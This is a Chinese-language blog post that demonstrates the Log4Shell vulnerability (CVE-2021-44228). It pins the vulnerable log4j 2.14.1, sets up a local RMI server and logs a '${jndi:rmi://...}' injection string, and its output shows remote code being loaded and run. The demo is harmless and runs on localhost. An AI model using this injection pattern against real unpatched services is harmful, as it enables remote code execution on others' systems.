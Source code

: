 ```yaml
---
title: Log4j2漏洞Demo
date: 2021-12-14 19:03:48
tags:

 - tech
 - java
 - log4j

---
```


# 背景

近期Log4j2爆出了[很严重的漏洞](https://nvd.nist.gov/vuln/detail/CVE-2021-44228),具体信息也可以[参考这里](https://spring.io/blog/2021/12/10/log4j2-vulnerability-and-spring-boot)



# 测试

构建一个最简单的Java应用,并引入Log4j2的依赖(2.15.0以前的版本都中招了)

```xml
<project xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" 
xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
	<modelVersion>4.0.0</modelVersion>
	<groupId>name.chengchao</groupId>
	<artifactId>log4jtest</artifactId>
	<version>0.0.1-SNAPSHOT</version>
	<dependencies>
		<dependency>
			<groupId>org.apache.logging.log4j</groupId>
			<artifactId>log4j-api</artifactId>
			<version>2.14.1</version>
		</dependency>
		<dependency>
			<groupId>org.apache.logging.log4j</groupId>
			<artifactId>log4j-core</artifactId>
			<version>2.14.1</version>
		</dependency>
	</dependencies>
</project>
```

由于这次的漏洞主要是lookup功能引起的,这里演示一下jndi的rmi调用.

先构造一个RMI服务并注册到本机

```java
package log4jtest;
import java.io.Serializable;
import java.rmi.Remote;

public class TimeServer implements Remote, Serializable {
    private static final long serialVersionUID = 1L;
    static {
        System.out.println("!!!TimeServer static invoked!!!");
    }
}
```

```java
package log4jtest;

import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class RMIServer {

    public static void main(String[] args) throws Exception {
        TimeServer timeserver = new TimeServer();
        Registry registry = LocateRegistry.createRegistry(1099);
        registry.bind("time", timeserver);
        System.out.println("Timeserver registry");
        Thread.sleep(1000000);
    }

}
```

这样在本机就起了一个RMI的服务,监听端口是默认的1099

在业务代码里测试一下效果,非常简单

```java
package log4jtest;

import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

public class Log4jTest {

    public static void main(String[] args) throws Exception {
        Logger logger = LogManager.getLogger();
        String name = "${jndi:rmi://127.0.0.1:1099/time}";
        logger.error("hello:{}", name);
        Thread.sleep(10000);
    }
}
```

1. 启动RMIServer
2. 执行`log4jtest.Log4jTest.main`
3. 就能看到TimeServer的代码被加载到本地,而且被执行了

```
!!!TimeServer static invoked!!!
10:22:56.343 [main] ERROR log4jtest.Log4jTest - hello:log4jtest.TimeServer@6bb4dd34
```



